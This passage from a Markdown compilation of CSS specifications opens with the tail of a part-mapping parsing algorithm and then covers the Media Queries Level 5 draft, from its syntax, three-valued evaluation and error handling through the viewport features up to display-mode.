2. Split the string *input* on commas. Let *unparsed mappings* be the resulting list of strings.
3. Let *mappings* be an initially empty list of tuples of tokens. This list will be the result of this algorithm.
4. For each string *unparsed mapping* in *unparsed mappings*, run the following substeps:

  1. If *unparsed mapping* is empty or contains only space characters, continue to the next iteration of the loop.
  2. Let *mapping* be the result of parsing *unparsed mapping* using the rules for parsing part mappings.
  3. If *mapping* is an error then continue to the next iteration of the loop. This allows clients to skip over new syntax that is not understood.
  4. Append *mapping* to *mappings*.

---

## Media Queries Level 5 {#mediaqueries-5}

- **Shortname:** `mediaqueries-5`
- **Editor's Draft:** [https://drafts.csswg.org/mediaqueries-5/](https://drafts.csswg.org/mediaqueries-5/)
- **Published TR:** [https://www.w3.org/TR/mediaqueries-5/](https://www.w3.org/TR/mediaqueries-5/)
- **W3C Status:** WD (exploring)
- **Last Edited:** 2026-11-04

### 1.  Introduction {#mediaqueries-5:intro}

*This section is not normative.*

In 1997, HTML4 [HTML401] defined a mechanism to support media-dependent style sheets, tailored for different media types. For example, a document may use different style sheets for screen and for print. In HTML, this can be written as:

> **Example:** ```
> <link rel="stylesheet" type="text/css" media="screen" href="style.css">
> <link rel="stylesheet" type="text/css" media="print" href="print.css">
> ```

CSS adapted and extended this functionality with its `@media` and `@import` rules, adding the ability to query the value of individual features:

> **Example:** Inside a CSS style sheet, one can declare that sections apply to certain media types:
>
> ```
> @media screen {
>   * { font-family: sans-serif }
> }
> ```
>
> Similarly, stylesheets can be conditionally imported based on media queries:
>
> ```
> @import "print-styles.css" print;
> ```

Media queries can be used with HTML, XHTML, XML [xml-stylesheet] and the @import and @media rules of CSS.

> **Example:** Here is the same example written in HTML, XHTML, XML, @import and @media:
>
> ```
> <link media="screen and (color), projection and (color)"
>       rel="stylesheet" href="example.css">
>
> <link media="screen and (color), projection and (color)"
>       rel="stylesheet" href="example.css" />
>
> <?xml-stylesheet media="screen and (color), projection and (color)"
>                  rel="stylesheet" href="example.css" ?>
>
> @import url(example.css) screen and (color), projection and (color);
>
> @media screen and (color), projection and (color) { … }
> ```

#### 1.1.  Module interactions {#mediaqueries-5:placement}

This module extends and supersedes [MEDIAQUERIES-4] and its predecessor [MEDIAQUERIES-3], which themselves built upon and replaced [CSS 2 § 7 Media types](#css2:q7.0).

#### 1.2.  Values {#mediaqueries-5:values}

Value types not defined in this specification, such as `<integer>`, `<number>` or `<resolution>`, are defined in [CSS-VALUES-4]. Other CSS modules may expand the definitions of these value types.

#### 1.3.  Units {#mediaqueries-5:units}

The units used in media queries are the same as in other parts of CSS, as defined in [CSS-VALUES-4]. For example, the pixel unit represents CSS pixels and not physical pixels.

Relative length units in media queries are based on the initial value, which means that units are never based on results of declarations.

> **Note:** For example, in HTML, the `em` unit is relative to the initial value of `font-size`, defined by the user agent or the user’s preferences, not any styling on the page. Note that this will also take into account additional restrictions the user might apply, such as minimum font sizes.

### 2.  Media Queries {#mediaqueries-5:media}

A **media query** is a method of testing certain aspects of the user agent or device that the document is being displayed in. Media queries are (almost) always independent of the contents of the document, its styling, or any other internal aspect; they’re only dependent on “external” information unless another feature explicitly specifies that it affects the resolution of Media Queries.

The syntax of a media query consists of an optional media query modifier, an optional media type, and zero or more media features:

A media query is a logical expression that is either true or false. A media query is true if:

- the media type, if specified, matches the media type of the device where the user agent is running, and
- the media condition is true.

Statements regarding media queries in this section assume the [syntax section](#mediaqueries-5:mq-syntax) is followed. Media queries that do not conform to the syntax are discussed in [§ 3.2 Error Handling](#mediaqueries-5:error-handling). I.e. the syntax takes precedence over requirements in this section.

> **Example:** Here is a simple example written in HTML:
>
> ```
> <link rel="stylesheet" media="screen and (color)" href="example.css" />
> ```
>
> This example expresses that a certain style sheet (`example.css`) applies to devices of a certain media type (`screen`) with certain feature (it must be a color screen).
>
> Here is the same media query written in an @import-rule in CSS:
>
> ```
> @import url(example.css) screen and (color);
> ```

User agents must re-evaluate media queries in response to changes in the user environment that they’re aware of, for example if the device is tiled from landscape to portrait orientation, and change the behavior of any constructs dependent on those media queries accordingly.

Unless another feature explicitly specifies that it affects the resolution of Media Queries, it is never necessary to apply a style sheet in order to evaluate expressions.

#### 2.1.  Combining Media Queries {#mediaqueries-5:mq-list}

Several media queries can be combined into a comma-separated **media query list**.

A media query list is true if *any* of its component media queries are true, and false only if *all* of its component media queries are false.

> **Example:** For example, the following media query list is true if either the media type is `screen` and it’s a color device, **or** the media type is `projection` and it’s a color device:
>
> ```
> @media screen and (color), projection and (color) { … }
> ```

An empty media query list evaluates to true.

> **Example:** For example, these are equivalent:
>
> ```
> @media all { … }
> @media { … }
> ```

#### 2.2.  Media Query Modifiers {#mediaqueries-5:mq-prefix}

A media query may optionally be prefixed by a single **media query modifier**, which is a single keyword which alters the meaning of the following media query.

##### 2.2.1.  Negating a Media Query: the `not` keyword {#mediaqueries-5:mq-not}

An individual media query can have its result negated by prefixing it with the keyword **not**. If the media query would normally evaluate to true, prefixing it with `not` makes it evaluate to false, and vice versa.

> **Example:** For example, the following will apply to everything except color-capable screens. Note that the entire media query is negated, not just the media type.
>
> ```
> <link rel="stylesheet" media="not screen and (color)" href="example.css" />
> ```

##### 2.2.2.  Hiding a Media Query From Legacy user agents: the `only` keyword {#mediaqueries-5:mq-only}

The concept of media queries originates from HTML4 [HTML401]. That specification only defined media types, but had a forward-compatible syntax that accommodated the addition of future concepts like media features: it would consume the characters of a media query up to the first non-alphanumeric character, and interpret that as a media type, ignoring the rest. For example, the media query `screen and (color)` would be truncated to just `screen`.

Unfortunately, this means that legacy user agents using this error-handling behavior will ignore any media features in a media query, even if they’re far more important than the media type in the query. This can result in styles accidentally being applied in inappropriate situations.

To hide these media queries from legacy user agents, the media query can be prefixed with the keyword **only**. The `only` keyword **has no effect** on the media query’s result, but will cause the media query to be parsed by legacy user agents as specifying the unknown media type “only”, and thus be ignored.

> **Example:** In this example, the stylesheet specified by the `<link>` element will not be used by legacy user agents, even if they would normally match the `screen` media type.
>
> ```
> <link rel="stylesheet" media="only screen and (color)" href="example.css" />
> ```

> **Note:** Note that the `only` keyword can only be used before a media type. A media query consisting only of media features, or one with another media query modifier like `not`, will be treated as false by legacy user agents automatically.

> **Note:** At the time of publishing this specification, such legacy user agents are extremely rare, and so using the `only` modifier is rarely, if ever, necessary.

#### 2.3.  Media Types {#mediaqueries-5:media-types}

A **media type** is a broad category of user-agent devices on which a document may be displayed. The original set of media types were defined in HTML4, for the `media` attribute on `<link>` elements.

Unfortunately, media types have proven insufficient as a way of discriminating between devices with different styling needs. Some categories which were originally quite distinct, such as `screen` and `handheld`, have blended significantly in the years since their invention. Others, such as `tty` or `tv`, expose useful differences from the norm of a full-featured computer monitor, and so are potentially useful to target with different styling, but the definition of media types as mutually exclusive makes it difficult to use them in a reasonable manner; instead, their exclusive aspects are better expressed as media features such as `grid` or `scan`.

As such, the following media types are defined for use in media queries:

****all****

: Matches all devices.

****print****

: Matches printers, and devices intended to reproduce a printed display, such as a web browser showing a document in “Print Preview”.

****screen****

: Matches all devices that aren’t matched by `print`.

In addition, the following **deprecated** media types are defined. Authors must not use these media types; instead, it is recommended that they select appropriate media features that better represent the aspect of the device that they are attempting to style against.

User agents must recognize the following media types as valid, but must make them match nothing.

- **tty**
- **tv**
- **projection**
- **handheld**
- **braille**
- **embossed**
- **aural**
- **speech**

> **Note:** It is expected that all of the media types will also be deprecated in time, as appropriate media features are defined which capture their important differences.

#### 2.4.  Media Features {#mediaqueries-5:mq-features}

A **media feature** is a more fine-grained test than media types, testing a single, specific feature of the user agent or display device.

Syntactically, media features resemble CSS properties: they consist of a feature name, a colon, and a value to test for. They may also be written in boolean form as just a feature name, or in range form with a comparison operator.

There are, however, several important differences between properties and media features:

- Properties are used to give information about how to present a document. Media features are used to describe requirements of the output device.
- Media features are always wrapped in parentheses and combined with the `and` or `or` keywords, like `(color) and (min-width: 600px)`, rather than being separated with semicolons.
- A media feature may be given with *only* its name (omitting the colon and value) to evaluate the feature in a boolean context. This is a convenient shorthand for features that have a reasonable value representing 0 or “none”. For example, `(color)` is true if the `color` media feature is non-zero.
- Media features with “range” type can be written in a range context, which uses standard mathematical comparison operators rather than a colon, or have their feature names [prefixed with “min-” or “max-”](#mediaqueries-5:mq-min-max).
- Properties sometimes accept complex values, e.g., calculations that involve several other values. Media features only accept single values: one keyword, one number, etc.

If a media feature references a concept which does not exist on the device where the UA is running (for example, speech UAs do not have a concept of “width”), the media feature must always evaluate to false.

> **Example:** The media feature `device-aspect-ratio` only applies to visual devices. On an `speech` device, expressions involving `device-aspect-ratio` will therefore always be false:
>
> ```
> <link media="speech and (device-aspect-ratio: 16/9)"
>       rel="stylesheet" href="example.css">
> ```

##### 2.4.1.  Media Feature Types: “range” and “discrete” {#mediaqueries-5:mq-ranges}

Every media feature defines its “type” as either “range” or “discrete” in its definition table.

“Discrete” media features, like `pointer` take their values from a set. The values may be keywords or boolean numbers (0 and 1), but the common factor is that there’s no intrinsic “order” to them—​none of the values are “less than” or “greater than” each other.

“Range” media features like `width`, on the other hand, take their values from a range. Any two values can be compared to see which is lesser and which is greater.

The only significant difference between the two types is that “range” media features can be evaluated in a range context and accept “min-” and “max-” prefixes on their name. Doing either of these changes the meaning of the feature—​rather than the media feature being true when the feature exactly matches the given value, it matches when the feature is greater than/less than/equal to the given value.

> **Example:** A `(width >= 600px)` media feature is true when the viewport’s width is `600px` *or more*.
>
> On the other hand, `(width: 600px)` by itself is only true when the viewport’s width is *exactly* `600px`. If it’s less or greater than `600px`, it’ll be false.

##### 2.4.2.  Evaluating Media Features in a Boolean Context {#mediaqueries-5:mq-boolean-context}

While media features normally have a syntax similar to CSS properties, they can also be written more simply as just the feature name, like `(color)`.

When written like this, the media feature is evaluated in a **boolean context**. If the feature would be true for any value *other than* the number `0`, a `<dimension>` with the value `0`, the keyword `none`, or a value explicitly defined by that media feature to evaluate as false in a boolean context, the media feature evaluates to true. Otherwise, it evaluates to false.

> **Example:** Some media features are designed to be written like this.
>
> For example, `update` is typically written as `(update)` to test if any kind of updating is available, or `not (update)` to check for the opposite.
>
> It can still be given an explicit value as well, with `(update: fast) or (update: slow)` equal to `(update)`, and `(update: none)` equal to `not (update)`.

> **Example:** Some numeric media features, like `width`, are rarely if ever useful to evaluate in a boolean context, as their values are almost always greater than zero. Others, like `color`, have meaningful zero values: `(color)` is identical to `(color > 0)`, indicating that the device is capable of displaying color at all.

> **Example:** Only some of the media features that accept keywords are meaningful in a boolean context.
>
> For example, `(pointer)` is useful, as `pointer` has a `none` value to indicate there’s no pointing device at all on the device. On the other hand, `(scan)` is just always true or always false (depending on whether it applies at all to the device), as there’s no value that means “false”.

##### 2.4.3.  Evaluating Media Features in a Range Context {#mediaqueries-5:mq-range-context}

Media features with a “range” type can be alternately written in a **range context** that takes advantage of the fact that their values are ordered, using ordinary mathematical comparison operators:

> **Note:** This syntax is new to Level 4 of Mediaqueries, and thus is not as widely supported at the moment as the `min-`/`max-` prefixes.

The basic form, consisting of a feature name, a comparison operator, and a value, returns true if the relationship is true.

> **Example:** For example, `(height > 600px)` (or `(600px < height)`) returns true if the viewport height is greater than `600px`.

The remaining forms, with the feature name nested between two value comparisons, returns true if both comparisons are true.

> **Example:** For example, `(400px < width < 1000px)` returns true if the viewport width is between `400px` and `1000px` (but not equal to either).

Some media features with a "range" type are said to be **false in the negative range**. This means that negative values are valid and must be parsed, and that querying whether the media feature is equal to, less than, or less or equal than any such negative value must evaluate to false. Querying whether the media feature is greater, or greater or equal, than a negative value evaluates to true if the relationship is true.

> **Note:** If negative values had been rejected at parse time instead, they would be treated as `unknown` based on the error handling rules. However, in reality, whether a device’s `resolution` is `-300dpi` is not unknown, it is known to be false. Similarly, for any visual device, the `width` of the targeted display area is known to be greater than `-200px` The above rule reflects that, making intuition match what UAs do.

> **Example:** The following examples result in a green background on all visual devices:
>
> ```
> @media not (width <= -100px) {
>   body { background: green; }
> }
> ```
>
> ```
> @media (height > -100px) {
>   body { background: green; }
> }
> ```
>
> ```
> @media not (resolution: -300dpi) {
>   body { background: green; }
> }
> ```

> **Advisement:** This is a behavior change compared to Media Queries Level 3 [MEDIAQUERIES-3], where negative values on these properties caused a syntax error. In level 3, syntax errors—including forbidden values—resulted in the entire media query being false, rather than the `unknown` treatment defined in this level. Implementations updating from level 3 should make sure to change the handling of negative values for the relevant properties when they add support for the richer syntax defined in [§ 2.5 Combining Media Features](#mediaqueries-5:media-conditions), to avoid introducing unintended semantics.

##### 2.4.4.  Using “min-” and “max-” Prefixes On Range Features {#mediaqueries-5:mq-min-max}

Rather than evaluating a “range” type media feature in a range context, as described above, the feature may be written as a normal media feature, but with a “min-” or “max-” prefix on the feature name.

This is equivalent to evaluating the feature in a range context, as follows:

- Using a “min-” prefix on a feature name is equivalent to using the “>=” operator. For example, `(min-height: 600px)` is equivalent to `(height >= 600px)`.
- Using a “max-” prefix on a feature name is equivalent to using the “<=” operator. For example, `(max-width: 40em)` is equivalent to `(width <= 40em)`.

> **Note:** because “min-” and “max-” both equate to range comparisons that **include** the value, they may be limiting in certain situations.

> **Example:** For instance, authors trying to define different styles based on a breakpoint in the viewport width using “min-” and “max-” would generally offset the values they’re comparing, to ensure that both queries don’t evaluate to true simultaneously. Assuming the breakpoint is at 320px, authors would conceptually use:
>
> ```
> @media (max-width: 320px) { /* styles for viewports <= 320px */ }
> @media (min-width: 321px) { /* styles for viewports >= 321px */ }
> ```
>
> While this ensures that the two sets of styles don’t apply simultaneously when the viewport width is 320px, it does not take into account the possibility of fractional viewport sizes which can occur as a result of non-integer pixel densities (e.g. on high-dpi displays or as a result of zooming/scaling). Any viewport widths that fall between 320px and 321px will result in none of the styles being applied.
>
> One approach to work around this problem is to increase the precision of the values used for the comparison. Using the example above, changing the second comparison value to 320.01px significantly reduces the chance that a viewport width on a device would fall between the cracks.
>
> ```
> @media (max-width: 320px) { /* styles for viewports <= 320px */ }
> @media (min-width: 320.01px) { /* styles for viewports >= 320.01px */ }
> ```
>
> However, in these situations, range context queries (which are not limited to “>=” and “<=” comparisons) offer a more appropriate solution:
>
> ```
> @media (width <= 320px) { /* styles for viewports <= 320px */ }
> @media (width > 320px) { /* styles for viewports > 320px */ }
> ```

“Discrete” type properties do not accept “min-” or “max-” prefixes. Adding such a prefix to a “discrete” type media feature simply results in an unknown feature name.

> **Example:** For example, `(min-grid: 1)` is invalid, because `grid` is a “discrete” media feature, and so doesn’t accept the prefixes. (Even though the `grid` media feature appears to be numeric, as it accepts the values `0` and `1`.)

Attempting to evaluate a min/max prefixed media feature in a boolean context is invalid and a syntax error.

#### 2.5.  Combining Media Features {#mediaqueries-5:media-conditions}

Multiple media features can be combined together into a **media condition** using full boolean algebra (not, and, or).

- Any media feature can be negated by placing `not` before it. For example, `not (color)` inverts the meaning of `(color)`—​since `(color)` matches a device with any kind of color display, `not (color)` matches a device *without* any kind of color display.
- Two or more media features can be chained together, such that the query is only true if *all* of the media features are true, by placing `and` between them. For example, `(width < 600px) and (height < 600px)` only matches devices whose screens are smaller than `600px` wide in both dimensions.
- Alternately, two or more media features can be chained together, such that the query is true if *any* of the media features are true, by placing `or` between them. For example, `(update: slow) or (hover: none)` matches if the device is slow to update the screen (such as an e-reader) *or* the primary pointing device has no hover capability, perhaps indicating that one should use a layout that displays more information rather than compactly hiding it until the user hovers.
- Media conditions can be grouped by wrapping them in parentheses `()` which can then be nested within a condition the same as a single media query. For example, `(not (color)) or (hover)` is true on devices that are monochrome and/or that have hover capabilities. If one instead wanted to query for a device that was monochrome and *didn’t* have hover capabilities, it must instead be written as `not ((color) or (hover))` (or, equivalently, as `(not (color)) and (not (hover))`).

It is *invalid* to mix `and` and `or` and `not` at the same “level” of a media query. For example, `(color) and (pointer) or (hover)` is illegal, as it’s unclear what was meant. Instead, parentheses can be used to group things using a particular joining keyword, yielding either `(color) and ((pointer) or (hover))` or `((color) and (pointer)) or (hover)`. These two have very different meanings: if only `(hover)` is true, the first one evaluates to false but the second evaluates to true.

### 3.  Syntax {#mediaqueries-5:mq-syntax}

Informal descriptions of the media query syntax appear in the prose and railroad diagrams in previous sections. The formal media query syntax is described in this section, with the rule/property grammar syntax defined in [CSS-SYNTAX-3] and [CSS-VALUES-4].

To parse a **<media-query-list>** production, parse a comma-separated list of component values, then parse each entry in the returned list as a `<media-query>`. Its value is the list of <media-query>s so produced.

> **Note:** This explicit definition of `<media-query-list>` parsing is necessary to make the error-recovery behavior of media query lists well-defined.

> **Note:** This definition of `<media-query-list>` parsing intentionally accepts an empty list.

> **Note:** As per [CSS-SYNTAX-3], tokens are ASCII case-insensitive.

```
<media-query> = <media-condition>
             | [ not | only ]? <media-type> [ and <media-condition-without-or> ]?
<media-type> = <ident>

<media-condition> = <media-not> | <media-in-parens> [ <media-and>* | <media-or>* ]
<media-condition-without-or> = <media-not> | <media-in-parens> <media-and>*
<media-not> = not <media-in-parens>
<media-and> = and <media-in-parens>
<media-or> = or <media-in-parens>
<media-in-parens> = ( <media-condition> ) | ( <media-feature> ) | <general-enclosed>

<media-feature> = [ <mf-plain> | <mf-boolean> | <mf-range> ]
<mf-plain> = <mf-name> : <mf-value>
<mf-boolean> = <mf-name>
<mf-range> = <mf-name> <mf-comparison> <mf-value>
           | <mf-value> <mf-comparison> <mf-name>
           | <mf-value> <mf-lt> <mf-name> <mf-lt> <mf-value>
           | <mf-value> <mf-gt> <mf-name> <mf-gt> <mf-value>
<mf-name> = <ident>
<mf-value> = <number> | <dimension> | <ident> | <ratio>
<mf-lt> = '<' '='?
<mf-gt> = '>' '='?
<mf-eq> = '='
<mf-comparison> = <mf-lt> | <mf-gt> | <mf-eq>

<general-enclosed> = [ <function-token> <any-value>? ) ] | [ ( <any-value>? ) ]
```

The `<media-type>` production does not include the keywords `only`, `not`, `and`, `or`, and `layer`.

> **Note:** The exclusion of `layer` is because it would otherwise be ambiguous when when used in the `@import url(…) layer;` syntax for the sake of cascade layers. See [CSS-CASCADE-5].

No whitespace is allowed between the “<” or “>” `<delim-token>`s and the following “=” <delim-token>, if it’s present.

> **Note:** Whitespace is required between a `not`, `and`, or `or` keyword and the following `(` character, because without it that would instead parse as a `<function-token>`. This is not made explicitly invalid because it’s already covered by the above grammar. It’s fine to have whitespace between a `)` and a following keyword, however.

When parsing the `<media-in-parens>` production, the `<general-enclosed>` branch must only be chosen if the input does not match either of the preceding branches. `<general-enclosed>` exists to allow for future expansion of the grammar in a reasonably compatible way.

#### 3.1.  Evaluating Media Queries {#mediaqueries-5:evaluating}

Each of the major subexpression of `<media-condition>` or `<media-condition-without-or>` is associated with a boolean result, as follows:

**`<media-condition>` `<media-condition-without-or>`**

: The result is the result of the child subexpression.

**`<media-in-parens>`**

: The result is the result of the child term.

**`<media-not>`**

: The result is the negation of the `<media-in-parens>` term. The negation of unknown is unknown.

**`<media-in-parens>` `<media-and>`***

: The result is true if the `<media-in-parens>` child term and all of the <media-in-parens> children of the `<media-and>` child terms are true, false if at least one of these <media-in-parens> terms are false, and unknown otherwise.

**`<media-in-parens>` `<media-or>`***

: The result is false if the `<media-in-parens>` child term and all of the <media-in-parens> children of the `<media-or>` child terms are false, true if at least one of these <media-in-parens> terms are true, and unknown otherwise.

**`<general-enclosed>`**

: The result is unknown.

  Authors must not use `<general-enclosed>` in their stylesheets. It exists only for future-compatibility, so that new syntax additions do not invalidate too much of a `<media-condition>` in older user agents.

**`<media-feature>`**

: The result is the result of evaluating the specified media feature.

If the result of any of the above productions is used in any context that expects a two-valued boolean, “unknown” must be converted to “false”.

> **Note:** This means that, for example, when a media query is used in a `@media` rule, if it resolves to “unknown” it’s treated as “false” and fails to match.

> **Note:** Media Queries use a three-value logic where terms can be “true”, “false”, or “unknown”. Specifically, it uses the [Kleene 3-valued logic](http://en.wikipedia.org/wiki/Three-valued_logic#Kleene_and_Priest_logics). In this logic, “unknown” means “either true or false, but we’re not sure which yet”.
>
> In general, an unknown value showing up in a formula will cause the formula to be unknown as well, as substituting “true” for the unknown will give the formula a different result than substituting “false”. The only way to eliminate an unknown value is to use it in a formula that will give the same result whether the unknown is replaced with a true or false value. This occurs when you have “false AND unknown” (evaluates to false regardless) and “true OR unknown” (evaluates to true regardless).
>
> This logic was adopted because `<general-enclosed>` needs to be assigned a truth value. In standard boolean logic, the only reasonable value is “false”, but this means that `not unknown(function)` is true, which can be confusing and unwanted. Kleene’s 3-valued logic ensures that unknown things will prevent a media query from matching, unless their value is irrelevant to the final result.

#### 3.2.  Error Handling {#mediaqueries-5:error-handling}

A media query that does not match the grammar in the previous section must be replaced by `not all` during parsing.

> **Note:** Note that a grammar mismatch does **not** wipe out an entire media query list, just the problematic media query. The parsing behavior defined above automatically recovers at the next top-level comma.

> **Example:** ```
> @media (example, all,), speech { /* only applicable to speech devices */ }
> @media &test, speech           { /* only applicable to speech devices */ }
> ```
>
> Both of the above media query lists are turned into `not all, speech` during parsing, which has the same truth value as just `speech`.
>
> Note that error-recovery only happens at the top-level of a media query; anything inside of an invalid parenthesized block will just get turned into `not all` as a group. For example:
>
> ```
> @media (example, speech { /* rules for speech devices */ }
> ```
>
> Because the parenthesized block is unclosed, it will contain the entire rest of the stylesheet from that point (unless it happens to encounter an unmatched “)” character somewhere in the stylesheet), and turn the entire thing into a `not all` media query.

An unknown `<media-type>` must be treated as not matching.

> **Example:** For example, the media query `unknown` is false, as `unknown` is an unknown media type.
>
> But `not unknown` is true, as the `not` negates the false media type.

> **Example:** Remember that some keywords aren’t allowed as `<media-type>`s and cause parsing to fail entirely: the media query `or and (color)` is turned into `not all` during parsing, rather than just treating the `or` as an unknown media type.

An unknown `<mf-name>` or `<mf-value>`, or a feature value which does not match the value syntax for that media feature, results in the value “unknown”. A `<media-query>` whose value is “unknown” must be replaced with `not all`.

> **Example:** ```
> <link media="screen and (max-weight: 3kg) and (color), (color)"
>           rel="stylesheet" href="example.css" />
> ```
>
> As `max-weight` is an unknown media feature, this media query list is turned into `not all, (color)`, which is equivalent to just `(color)`.

> **Example:** ```
> @media (min-orientation:portrait) { … }
> ```
>
> The `orientation` feature does not accept prefixes, so this is considered an unknown media feature, and turned into `not all`.

> **Example:** The media query `(color:20example)` specifies an unknown value for the `color` media feature and is therefore turned into `not all`.

> **Note:** that media queries are also subject to the parsing rules of the host language. For example, take the following CSS snippet:
>
> ```
> @media test;,all { body { background:lime } }
> ```
>
> The media query `test;,all` is, parsed by itself, equivalent to `not all, all`, which is always true. However, CSS’s parsing rules cause the `@media` rule, and thus the media query, to end at the semicolon. The remainder of the text is treated as a style rule with an invalid selector and contents.

### 4.  Viewport/Page Characteristics Media Features {#mediaqueries-5:mf-viewport-characteristics}

#### 4.1.  Width: the `width` feature {#mediaqueries-5:width}

| Field | Value |
| --- | --- |
| Name: | **width** |
| For: | `@media` |
| Value: | `<length>` |
| Type: | range |

The `width` media feature describes the width of the targeted display area of the output device. For continuous media, this is the width of the viewport (as described by CSS2, section 9.1.1 [CSS2]) including the size of a rendered scroll bar (if any). For paged media, this is the width of the page box (as described by CSS2, section 13.2 [CSS2]).

`<length>`s are interpreted according to [§ 1.3 Units](#mediaqueries-5:units).

`width` is false in the negative range.

> **Example:** For example, this media query expresses that the style sheet is used on printed output wider than 25cm:
>
> ```
> <link rel="stylesheet" media="print and (min-width: 25cm)" href="http://…" />
> ```

> **Example:** This media query expresses that the style sheet is used on devices with viewport (the part of the screen/paper where the document is rendered) widths between 400 and 700 pixels:
>
> ```
> @media (400px <= width <= 700px) { … }
> ```

> **Example:** This media query expresses that style sheet is used if the width of the viewport is greater than 20em.
>
> ```
> @media (min-width: 20em) { … }
> ```
>
> The `em` value is relative to the initial value of `font-size`.

#### 4.2.  Height: the `height` feature {#mediaqueries-5:height}

| Field | Value |
| --- | --- |
| Name: | **height** |
| For: | `@media` |
| Value: | `<length>` |
| Type: | range |

The `height` media feature describes the height of the targeted display area of the output device. For continuous media, this is the height of the viewport including the size of a rendered scroll bar (if any). For paged media, this is the height of the page box.

`<length>`s are interpreted according to [§ 1.3 Units](#mediaqueries-5:units).

`height` is false in the negative range.

#### 4.3.  Aspect-Ratio: the `aspect-ratio` feature {#mediaqueries-5:aspect-ratio}

| Field | Value |
| --- | --- |
| Name: | **aspect-ratio** |
| For: | `@media` |
| Value: | `<ratio>` |
| Type: | range |

The `aspect-ratio` media feature is defined as the ratio of the value of the `width` media feature to the value of the `height` media feature.

#### 4.4.  Orientation: the `orientation` feature {#mediaqueries-5:orientation}

| Field | Value |
| --- | --- |
| Name: | **orientation** |
| For: | `@media` |
| Value: | portrait \| landscape |
| Type: | discrete |

****portrait****

: The `orientation` media feature is `portrait` when the value of the `height` media feature is greater than or equal to the value of the `width` media feature.

****landscape****

: Otherwise `orientation` is `landscape`.

> **Example:** The following media query tests for “portrait” orientation, like a phone held upright.
>
> ```
> @media (orientation:portrait) { … }
> ```

#### 4.5.  Block-Axis Overflow: the `overflow-block` feature {#mediaqueries-5:mf-overflow-block}

| Field | Value |
| --- | --- |
| Name: | **overflow-block** |
| For: | `@media` |
| Value: | none \| scroll \| paged |
| Type: | discrete |

The `overflow-block` media feature describes the behavior of the device when content overflows the initial containing block in the block axis.

****none****

: There is no affordance for overflow in the block axis; any overflowing content is simply not displayed. Examples: billboards

****scroll****

: Overflowing content in the block axis is exposed by allowing users to scroll to it. Examples: computer screens

****paged****

: Content is broken up into discrete pages; content that overflows one page in the block axis is displayed on the following page. Examples: printers, ebook readers

Media that match `none` or `scroll` are said to be **continuous media**, while those that match `paged` are said to be **paged media**

> **Note:** Additional values for this media feature may be added in the future to describe classes of user agents with a hybrid behavior combining aspects of continuous and paged media. For example, the Presto layout engine (now discontinued) shipped with a semi-paginated presentation-mode behavior similar to `continuous` except that it honored forced page breaks. Not knowing of any currently-shipping user agent with this type of behavior, the Working Group has decided not to add such a value in this level to avoid mischaracterizing any such user agent. Anyone implementing a user agent not adequately described by any of the values specified above is encouraged to contact the Working Group so that extensions to this media feature may be considered.

#### 4.6.  Inline-Axis Overflow: the `overflow-inline` feature {#mediaqueries-5:mf-overflow-inline}

| Field | Value |
| --- | --- |
| Name: | **overflow-inline** |
| For: | `@media` |
| Value: | none \| scroll |
| Type: | discrete |

The `overflow-inline` media feature describes the behavior of the device when content overflows the initial containing block in the inline axis.

****none****

: There is no affordance for overflow in the inline axis; any overflowing content is simply not displayed.

****scroll****

: Overflowing content in the inline axis is exposed by allowing users to scroll to it.

> **Note:** There are no known implementations of paged overflow of inline-overflowing content, and the very concept doesn’t seem to make much sense, so there is intentionally no `paged` value for `overflow-inline`.

#### 4.7.  Horizontal Viewport Segments: the `horizontal-viewport-segments` feature {#mediaqueries-5:mf-horizontal-viewport-segments}

| Field | Value |
| --- | --- |
| Name: | **horizontal-viewport-segments** |
| For: | `@media` |
| Value: | `<integer>` |
| Type: | range |

The `horizontal-viewport-segments` media feature describes the number of logical segments of the viewport in the horizontal direction.

The `horizontal-viewport-segments` media feature is false in the negative range.

When the viewport is split by one or more hardware features (such as a fold or a hinge between separate displays) that act as a logical divider, segments are the regions of the viewport that can be treated as logically distinct by the page.

#### 4.8.  Vertical Viewport Segments: the `vertical-viewport-segments` feature {#mediaqueries-5:mf-vertical-viewport-segments}

| Field | Value |
| --- | --- |
| Name: | **vertical-viewport-segments** |
| For: | `@media` |
| Value: | `<integer>` |
| Type: | range |

The `vertical-viewport-segments` media feature describes the number of logical segments of the viewport in the vertical direction.

The `vertical-viewport-segments` media feature is false in the negative range.

> **Example:** This media query detects a viewport that has exactly two segments that are side-by-side.
>
> ```
> @media (horizontal-viewport-segments: 2) and (vertical-viewport-segments: 1) { … }
> ```

#### 4.9.  Display Modes: the `display-mode` media feature {#mediaqueries-5:display-modes}

| Field | Value |
| --- | --- |
| Name: | **display-mode** |
| For: | `@media` |
| Value: | application \| fullscreen \| standalone \| minimal-ui \| browser \| picture-in-picture |
| Type: | discrete |

The `display-mode` media feature describes the modes in which the current browsing context is currently being presented to the end user. In child browsing contexts, the matching values must match those of the top-level browsing context.

Each value must match if and only if the conditions in its definition are satisfied. Multiple values can match at the same time.

> **Note:** For example, an application context displayed fullscreen matches both `application` and `fullscreen`.

This feature is primarily used to determine which display mode the user agent has applied to an application context. As such, the values of this feature correspond to the display modes defined in [APPMANIFEST]. However, it can also be used in non-application contexts to determine whether the viewport is in other modes, such as fullscreen or picture-in-picture.

****application****

: The top-level browsing context is an application context.

****fullscreen****

: The browsing context is displayed with browser UI elements hidden and takes up the entirety of the available display area. The fullscreen context may have been caused by the fullscreen display mode in the application manifest, by the `requestFullscreen()` method of the Fullscreen API, or through some other means (such as the user manually activating fullscreen mode using the user agent’s built-in controls).

  Corresponds to the fullscreen display mode.

****standalone****

: The standalone display mode is in use. Only applicable in an application context.

****minimal-ui****

: The minimal-ui display mode is in use. Only applicable in an application context.

****browser****

: The browsing context is displayed using the platform-specific convention for opening hyperlinks in the user agent (e.g., in a browser tab or web browser window with controls such as an address bar). Matches when the browser display mode is in use, and in any non-application contexts.

  Corresponds to the browser display mode.

****picture-in-picture****

: This mode allows users to continue consuming media while they interact with other sites or applications on their device. The browsing context is displayed in a floating and always-on-top window. A user agent may include other platform specific UI elements, such as "back-to-tab" and "site information" buttons or whatever is customary on the platform and user agent.

> **Example:** For example, the application manifest can request the standalone display mode as follows:
>
> ```json
> {
>   "display": "standalone"
> }
> ```
>
> This media query can be used to determine whether the user agent has actually applied the standalone mode:
>
> ```css
> @media (display-mode: standalone) { … }
> ```
>
> Note that other `display-mode` values might also match at the same time.

> **Note:** The fullscreen display mode is distinct from the Fullscreen API.
>
